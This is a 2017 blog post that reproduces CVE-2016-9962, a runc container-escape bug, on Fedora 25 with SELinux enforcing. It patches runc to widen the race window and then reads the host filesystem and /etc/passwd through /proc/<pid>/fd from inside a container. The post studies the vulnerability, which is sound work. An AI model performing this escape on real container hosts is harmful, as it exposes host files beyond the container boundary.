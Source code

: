 +++
date = "2017-01-17T03:27:40+09:00"
title = "Docker vulnerability (CVE-2016-9962) PoC with SELinux"
draft = false
+++

Here we described how to reproduce CVE-2016-9962(vulnerability for Docker) and
how can we protect it by using SELinux.

(Written by Kazuki Omo:ka-omo@sios.com).

  

* * *

## Reference

#### <https://bugzilla.redhat.com/show_bug.cgi?id=1409531>

#### <https://bugzilla.suse.com/show_bug.cgi?id=1012568#c2>

## Prepare for PoC

Here is a description how to reproduce it. **I used Fedora25 for this PoC.**

This vulnerability is quite hard to reproduce because there's not so much race
window on runc. Also, we need to add "CAP_SYS_PTRACE" to container for
checking other container's status.

  1. Install docker, runc on your PC.
    
        [root@localhost ~]# rpm -qa|grep -i docker
        golang-github-fsouza-go-dockerclient-devel-0.2.1-17.git2350d7b.fc25.noarch
        golang-github-docker-go-unit-test-devel-1.5.1-0.3.gitd30aec9.fc25.x86_64
        golang-github-docker-go-devel-1.5.1-0.3.gitd30aec9.fc25.noarch
        docker-devel-1.12.6-3.git51ef5a8.fc25.noarch
        golang-github-docker-libcontainer-devel-2.1.1-0.8.gitc964368.fc25.noarch
        docker-1.12.6-4.gitf499e8b.fc25.x86_64
        golang-github-docker-libcontainer-2.1.1-0.8.gitc964368.fc25.x86_64
        golang-github-docker-go-connections-devel-0.1.2-0.2.git6e4c13d.fc25.noarch
        docker-common-1.12.6-4.gitf499e8b.fc25.x86_64
        golang-github-docker-go-connections-unit-test-devel-0.1.2-0.2.git6e4c13d.fc25.x86_64
        golang-github-docker-go-units-devel-0.2.0-3.fc25.noarch
        [root@localhost ~]# rpm -qa|grep -i runc
        runc-1.0.0-3.rc2.gitc91b5be.fc25.x86_64
        runc-devel-0.1.1-4.git57b9972.fc25.noarch
    

  2. Start docker.
    
        [root@localhost ~]# systemctl start docker
    

  3. Use "alpine" image for PoC.
    
        [root@localhost ~]# docker pull alpine
    

  4. create alpine image (named "alpine")
    
        [root@localhost ~]# docker create alpine --name alpine
    

  5. check new alpine container name by using "docker ps -a". In below situation
, "small_lumiere" is the name.
    
        [root@localhost ~]# docker ps -a
        [root@localhost ~]# docker ps -a
        CONTAINER ID        IMAGE               COMMAND             CREATED         
        STATUS              PORTS               NAMES
        965456106c88        alpine              "--name alpine"     6 hours ago     
        Created                                 small_lumiere
    

  6. create "rootfs" directory and copy all of alpine file under rootfs/
    
        [root@localhost ~]# mkdir rootfs
        [root@localhost ~]# docker export small_lumiere |tar xvfC - rootfs
    

  7. create config.json
    
        [root@localhost ~]# runc spec
    

  8. modify config.json for assign CAP_SYS_PTRACE capability.
    
                        "capabilities": [
                            "CAP_AUDIT_WRITE",
                            "CAP_KILL",
                            "CAP_SYS_PTRACE",
                            "CAP_NET_BIND_SERVICE"
                    ],
    

  9. For PoC, we will modify runc source. Get/install runc SRPM and modify source code.
    
        [root@localhost ~]# rpm -ivh /tmp/runc-1.0.0-3.rc2.gitc91b5be.fc25.src.rpm
        [root@localhost ~]# cd SOURCES/
        [root@localhost ~]# ls
        runc-c91b5be.tar.gz
        [root@localhost ~]#
        [root@localhost ~]# mkdir ../work
        [root@localhost ~]# cd ../work/
        [root@localhost ~]# tar -xvzf ../SOURCES/runc-c91b5be.tar.gz
        [root@localhost ~]# cd runc-c91b5bea4830a57eac7882d7455d59518cdf70ec/
        [root@localhost runc-c91b5bea4830a57eac7882d7455d59518cdf70ec]# ls
        CONTRIBUTING.md       VERSION        main.go              script
        Dockerfile            checkpoint.go  main_solaris.go      signals.go
        Godeps                contrib        main_unix.go         spec.go
        LICENSE               create.go      main_unsupported.go  start.go
        MAINTAINERS           delete.go      man                  state.go
        MAINTAINERS_GUIDE.md  events.go      pause.go             tests
        Makefile              exec.go        ps.go                tty.go
        NOTICE                kill.go        restore.go           update.go
        PRINCIPLES.md         libcontainer   rlimit_linux.go      utils.go
        README.md             list.go        run.go               utils_linux.go
        [root@localhost runc-c91b5bea4830a57eac7882d7455d59518cdf70ec]# vi libcontainer/setns_init_linux.go 
    

  10. We add 2 lines ;
    
        [root@localhost libcontainer]# diff -Nru setns_init_linux.go setns_init_linux.go.org 
	        --- setns_init_linux.go		2017-01-16 15:26:01.067477093 +0900
	        +++ setns_init_linux.go.org	2017-01-16 15:25:22.921553094 +0900
	        @@ -5,6 +5,7 @@
		import (
       		"fmt"
     		"os"
	    +	"time"
     
	     	"github.com/opencontainers/runc/libcontainer/apparmor"
	     	"github.com/opencontainers/runc/libcontainer/keys"
	        @@ -49,5 +50,6 @@
	     	if err := label.SetProcessLabel(l.config.ProcessLabel); err != nil {
     			return err
     		}
	    +	time.Sleep(500 * time.Second)
     		return system.Execv(l.config.Args[0], l.config.Args[0:], os.Environ())
         }
    

  11. make tar.gz and re-create runc package by using rpmbuild.
    
        [root@localhost work]# tar -cvfrunc-c91b5be.tar runc-c91b5bea4830a57eac7882d7455d59518cdf70ec
        [root@localhost work]# gzip runc-c91b5be.tar
        [root@localhost work]# cp runc-c91b5be.tar.gz ../SOURCES
        [root@localhost work]# cd ../SPECS/
        [root@localhost SPECS]# rpmbuild -ba runc.spec
        [root@localhost SPECS]# cd ~
    

  12. uninstall and re-install modified runc package;
    
        [root@localhost ~]# rpm -e runc
        [root@localhost ~]# rpm -ivh rpmbuild/RPMS/x86_64/runc-1.0.0-3.rc2.gitc91b5be.fc25.x86_64.rpm
    

* * *

## PoC

  * open 2 terminals(shell1, shell2).

  * Check SELinux is enabled;
    
        [root@localhost ~]# getenforce
        Enforcing
    

  * run container(sh) in shell1;
    
        [root@localhost ~]# runc run ctr
        / # 
    

  * run new container in shell2 with "runc exec" command. It is pausing 500sec;
    
        [root@localhost ~]# runc run ctr
    
    

  * run "ps ax" in shell1. You can see shell2 process;
    
        [root@localhost ~]# runc run ctr
	    / # ps ax
	    PID   USER     TIME   COMMAND
	        1 root       0:00 sh
	        6 root       0:00 /proc/self/exe init
	       11 root       0:00 ps ax
	    / # 
    

  * In above case, check /proc/6/fd by ls command. You see path as fd/4;
    
        / # ls -la /proc/6/fd/
        total 0
        dr-x------    2 root     root             0 Jan 16 06:43 .
        dr-xr-xr-x    9 root     root             0 Jan 16 06:43 ..
        lrwx------    1 root     root            64 Jan 16 06:43 0 -> /dev/pts/4
        lrwx------    1 root     root            64 Jan 16 06:43 1 -> /dev/pts/4
        lrwx------    1 root     root            64 Jan 16 06:43 2 -> /dev/pts/4
        lrwx------    1 root     root            64 Jan 16 06:43 3 -> socket:[40487]
        lr-x------    1 root     root            64 Jan 16 06:43 4 -> /run/runc/ctr
        lrwx------    1 root     root            64 Jan 16 06:43 5 -> /dev/pts/4
        lr-x------    1 root     root            64 Jan 16 06:43 6 -> pipe:[40496]
        l-wx------    1 root     root            64 Jan 16 06:43 7 -> /dev/null
        / # 
    

  * Check "/proc/6/fd/4/../../.." by ls command. You can see parent(host) / filesystem;
    
        / # ls -l /proc/6/fd/4/../../..
        total 64
        lrwxrwxrwx    1 root     root             7 Feb  3  2016 bin -> usr/bin
        dr-xr-xr-x    6 root     root          4096 Jan 16 00:07 boot
        drwxr-xr-x   19 root     root          3840 Jan 16 05:57 dev
        drwxr-xr-x  130 root     root         12288 Jan 16 05:40 etc
        drwxr-xr-x    3 root     root          4096 Oct 12 22:55 home
    
    

  * You can also read /etc/passwd by using "cat /proc/6/fd/4/../../../etc";
    
        / # cat /proc/6/fd/4/../../../etc/passwd
        root:x:0:0:root:/root:/bin/bash
        bin:x:1:1:bin:/bin:/sbin/nologin
        daemon:x:2:2:daemon:/sbin:/sbin/nologin
    

* * *

## Conclusion

Now we could see that CVE-2016-9962 PoC is successfull even if SELinux is
enforcing. But we think this vulnerability is not critical because;

  * The race window is quite narrow(then we needed to modify runc source.)

  * We also need to add "CAP_SYS_PTRACE" on the container(it is removed in defau
lt.)

